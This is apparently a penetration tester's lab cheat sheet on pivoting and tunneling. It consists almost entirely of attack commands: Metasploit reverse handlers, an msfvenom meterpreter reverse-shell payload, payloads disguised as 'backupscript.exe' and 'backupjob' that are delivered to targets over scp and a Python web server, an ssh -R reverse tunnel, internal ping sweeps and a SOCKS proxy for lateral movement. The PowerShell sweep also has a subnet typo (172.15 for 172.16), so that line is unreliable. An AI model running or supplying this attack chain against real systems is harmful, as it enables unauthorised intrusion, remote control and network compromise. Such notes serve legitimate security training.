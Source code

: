 ```
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:8000
```
Transferring Payload to Pivot Host
```
scp backupscript.exe ubuntu@<ipAddressofTarget>:~/
```
Starting Python3 Webserver on Pivot Host
```
python3 -m http.server 8123
```
Downloading Payload from Windows Target
```
Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```
Using SSH -R
```
 ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```
## Meterpreter Tunneling & Port Forwarding
Creating Payload for Ubuntu Pivot Host
```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.18 -f elf -o backupjob LPORT=8080
```
Configuring & Starting the multi/handler
```
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8080
lport => 8080
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 0.0.0.0:8080
```
Execute the payload on the pivot host
Then Meterpreter Shell gets established.
Ping Sweep
```
meterpreter > run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23
```
Ping Sweep For Loop on Linux Pivot Hosts
```
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
```
Ping Sweep For Loop Using CMD
```
for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"
```
Ping Sweep Using PowerShell
```
1..254 | % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.15.5.$($_) -quiet)"}
```
Configuring MSF's SOCKS Proxy
```
msf6 > use auxiliary/server/socks_proxy

msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
SRVPORT => 9050
msf6 auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0
SRVHOST => 0.0.0.0
msf6 auxiliary(server/socks_proxy) > set version 4a
```